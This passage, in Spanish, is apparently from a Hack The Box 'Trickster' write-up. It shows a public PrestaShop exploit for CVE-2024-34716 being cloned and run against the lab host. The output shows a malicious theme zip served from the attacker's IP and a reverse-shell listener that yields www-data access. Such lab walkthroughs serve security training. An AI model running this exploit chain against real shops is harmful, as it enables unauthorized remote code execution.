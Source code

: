 {% embed url="https://github.com/aelmokhtar/CVE-2024-34716" %}

Nos descargaremos el repositorio de GitHub del exploit e instalaremos los requisitos.

```bash
❯ git clone https://github.com/aelmokhtar/CVE-2024-34716; cd CVE-2024-34716
Clonando en 'CVE-2024-34716'...
remote: Enumerating objects: 60, done.
remote: Counting objects: 100% (60/60), done.
remote: Compressing objects: 100% (42/42), done.
remote: Total 60 (delta 30), reused 34 (delta 13), pack-reused 0 (from 0)
Recibiendo objetos: 100% (60/60), 6.71 MiB | 18.51 MiB/s, listo.
Resolviendo deltas: 100% (30/30), listo.

❯ pip install -r requirements.txt
DEPRECATION: Python 2.7 reached the end of its life on January 1st, 2020. Please upgrade your Python as Python 2.7 is no longer maintained. pip 21.0 will drop support for Python 2.7 in January 2021. More details about Python 2 support in pip can be found at https://pip.pypa.io/en/latest/development/release-process/#python-2-support pip 21.0 will remove support for this functionality.
Defaulting to user installation because normal site-packages is not writeable
Requirement already satisfied: argparse in /usr/lib/python2.7 (from -r requirements.txt (line 1)) (1.2.1)
Requirement already satisfied: beautifulsoup4 in /usr/local/lib/python2.7/dist-packages (from -r requirements.txt (line 2)) (4.7.1)
Requirement already satisfied: requests in /usr/local/lib/python2.7/dist-packages (from -r requirements.txt (line 3)) (2.21.0)
Requirement already satisfied: soupsieve>=1.2 in /usr/local/lib/python2.7/dist-packages (from beautifulsoup4->-r requirements.txt (line 2)) (1.9.6)
Requirement already satisfied: urllib3<1.25,>=1.21.1 in /usr/local/lib/python2.7/dist-packages (from requests->-r requirements.txt (line 3)) (1.24.3)
Requirement already satisfied: chardet<3.1.0,>=3.0.2 in /usr/local/lib/python2.7/dist-packages (from requests->-r requirements.txt (line 3)) (3.0.4)
Requirement already satisfied: certifi>=2017.4.17 in /usr/local/lib/python2.7/dist-packages (from requests->-r requirements.txt (line 3)) (2021.10.8)
Requirement already satisfied: idna<2.9,>=2.5 in /usr/local/lib/python2.7/dist-packages (from requests->-r requirements.txt (line 3)) (2.8)
Requirement already satisfied: backports.functools-lru-cache; python_version < "3" in /usr/local/lib/python2.7/dist-packages (from soupsieve>=1.2->beautifulsoup4->-r requirements.txt (line 2)) (1.6.6)
```

Lanzaremos el exploit sobre la URL vulnerable de `PrestaShop`, le indicaremos un correo falso, nuestra dirección IP y el `admin-path` que encontramos anteriormente.

Al ejecutar el ataque, logramos obtener acceso al equipo como usuario `www-data`.

```bash
❯ python3 exploit.py --url http://shop.trickster.htb --email 'gzzcoo@trickster.htb' --local-ip 10.10.16.5 --admin-path admin634ewutrx1jgitlooaj
[X] Starting exploit with:
	Url: http://shop.trickster.htb
	Email: gzzcoo@trickster.htb
	Local IP: 10.10.16.5
	Admin Path: admin634ewutrx1jgitlooaj
[X] Ncat is now listening on port 12345. Press Ctrl+C to terminate.
Serving at http.Server on port 5000
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:12345
Ncat: Listening on 0.0.0.0:12345
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
GET request to http://shop.trickster.htb/themes/next/reverse_shell_new.php: 403
Request: GET /ps_next_8_theme_malicious.zip HTTP/1.1
Response: 200 -
10.10.11.34 - - [25/Jan/2025 00:03:18] "GET /ps_next_8_theme_malicious.zip HTTP/1.1" 200 -
```